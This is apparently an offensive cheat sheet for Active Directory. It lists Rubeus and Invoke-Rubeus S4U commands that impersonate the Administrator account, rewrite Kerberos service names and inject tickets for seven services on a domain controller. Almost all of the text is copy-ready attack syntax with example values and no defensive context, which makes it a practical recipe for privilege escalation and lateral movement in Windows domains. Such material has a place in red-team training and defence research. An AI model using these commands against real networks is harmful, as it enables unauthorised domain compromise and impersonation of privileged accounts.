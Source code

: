 ## Generate TGS for the alternative service name

### 1) Rubeus

    Rubeus.exe s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /altservice:[Alternate-Service] /user:[User] /ticket:[Base64 ticket] /nowrap

##### Example

    Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /altservice:ldap /user:srv01$ /ticket:[Base64 ticket] /nowrap

### 2) Invoke-Rubeus

    Invoke-Rubeus -Command "s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /altservice:[Alternate-Service] /user:[User] /ticket:[Base64 ticket] /nowrap"

##### Example

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /altservice:ldap /user:srv01$ /ticket:[Base64 ticket] /nowrap"

## Generate service tickets for all service types

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:http/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:cifs/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:host/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:ldap/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:wsman/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:mssql/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:rpcss/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"
